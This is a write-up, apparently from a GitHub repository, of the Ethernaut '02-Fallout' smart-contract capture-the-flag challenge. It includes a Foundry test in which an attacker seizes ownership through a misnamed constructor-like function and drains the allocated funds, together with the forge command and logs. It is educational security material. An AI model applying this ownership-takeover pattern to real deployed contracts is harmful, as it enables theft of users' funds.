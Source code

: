 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

# What You're Supposed to Do?

in `02-Fallout` Challenge, You Should Try To find a Way to Take Ownership of the Contract.

`02-Fallout` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)

# How did i Complete This Challenge?

Take a Look at `testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds` test at `Fallout.t.sol`:

```javascript

    modifier multipleAllocationsFromDifferentUsers {
        address[] memory users = new address[](10);
        for (uint i = 0; i < 10; i++) {
            users[i] = address(uint160(i + 1));
            vm.startPrank(users[i]);
            vm.deal(users[i], 1 ether);
            fallout.allocate{value: 1 ether}();
            vm.stopPrank();
        }
        _;
    }

    function testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds() external multipleAllocationsFromDifferentUsers {
        vm.startPrank(owner);
        
        fallout.Fal1out{value: 1 ether}();
        console2.log("Owner Address: ", owner);
        console2.log("Malicious Actor Address: ", maliciousActor);

        vm.stopPrank();

        vm.startPrank(maliciousActor);

        console2.log("Current Owner Before The Malicious Actor Comes an Steals Ownership from the Real Owner: ", fallout.owner());
        fallout.Fal1out{value: 1 ether}();
        console2.log("Current Owner After The Malicious Actor Comes an Steals Ownership from the Real Owner: ", fallout.owner());

        uint256 falloutContractBalanceBeforeMaliciousActorDrainFunds = address(fallout).balance;
        fallout.collectAllocations();
        uint256 maliciousActorAccountBalanceBeforeMaliciousActorDrainFunds = address(maliciousActor).balance;

        assertEq(falloutContractBalanceBeforeMaliciousActorDrainFunds, maliciousActorAccountBalanceBeforeMaliciousActorDrainFunds);
        assertNotEq(owner, fallout.owner());
        assertEq(maliciousActor, fallout.owner());

        vm.stopPrank();
    }
```

in `testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds` test, first some Users Allocate their Money to this Smart Contract (multipleAllocationsFromDifferentUsers modifier).

Then `owner` takes the ownership of the contract by calling `Fal1out` function. After that, an Malicious Actor Takes ownership of the contract by Doing the same thing, then Drains the
Contract Funds with `collectAllocations` function.

You can run the Test by running this Command: (Required to Have Foundry Installed)

```javascript
    forge test --match-test testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds -vvvv
```

take a Look at first Few Lines to Find the `Logs`:

```javascript
    Logs:
        Owner Address:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Malicious Actor Address:  0x195Ef46F233F37FF15b37c022c293753Dc04A8C3
        Current Owner Before The Malicious Actor Comes an Steals Ownership from the Real Owner:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Current Owner After The Malicious Actor Comes an Steals Ownership from the Real Owner:  0x195Ef46F233F37FF15b37c022c293753Dc04A8C3
```